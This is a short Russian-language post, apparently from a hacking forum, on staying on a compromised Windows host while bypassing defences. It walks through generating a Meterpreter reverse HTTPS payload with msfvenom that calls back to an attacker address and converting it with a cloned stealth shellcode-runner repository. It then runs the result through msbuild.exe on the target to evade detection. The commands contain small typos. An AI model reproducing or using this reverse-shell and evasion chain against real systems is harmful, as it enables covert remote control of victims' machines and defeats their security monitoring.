 Эта методика позволяет обойти некоторую защиту и оставаться в системе более менее без палева, напишу шаги для реализации:

1) Генерируем полезную нагрузку через фреймфорк: 

msfvenom -p windows/×64/meterpreter/reverse_https LOST=192.168.49.122 LPORT=443 -f raw -o meter.bin
2) Клонируем себе репу: https://github.com/kymb0/Stealth_shellcode_runners и запускаем генерацию xml файлика:

generator.py meter.bin
3) Запускаем встроенный майками билдер на атакуемом хосте 

C: \Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe